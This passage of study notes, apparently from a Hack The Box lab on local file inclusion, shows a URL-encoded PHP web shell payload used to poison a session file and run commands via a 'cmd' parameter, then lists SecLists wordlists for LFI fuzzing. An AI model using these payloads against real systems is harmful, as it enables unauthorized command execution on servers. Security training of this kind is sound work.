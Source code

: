             Code: url
            
            ```
            http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
            ```
            
            Finally, we can include the session file and use the `&cmd=id` to execute a commands:
            
            [![](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)
            
            Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`  
            after our last inclusion. Ideally, we would use the poisoned web shell  
            to write a permanent web shell to the web directory, or send a reverse  
            shell for easier interaction.
            
        
          
        
          
        
          
        
        💡
        
        allways start with atleast 4 ../ in your LFI url referal
        
        # Lets Automate LFI : )
        
        - Automated scanning :
        - first method : we can fuzz in the place of the parameter we are targeting using a LFI huge list and then look at the results repsonses of their http .
            - lets get
            - the wordlists used from seclist-master:
                - burp-parameter-names.txt
                    - `Discovery/Web-Content/burp-parameter-names.txt`
                - LFI-Jhaddix.txt
                    - `Fuzzing/LFI/LFI-Jhaddix.txt`
                - default-web-root-directory-linux.txt
                    - `Discovery/Web-Content/default-web-root-directory-linux.txt`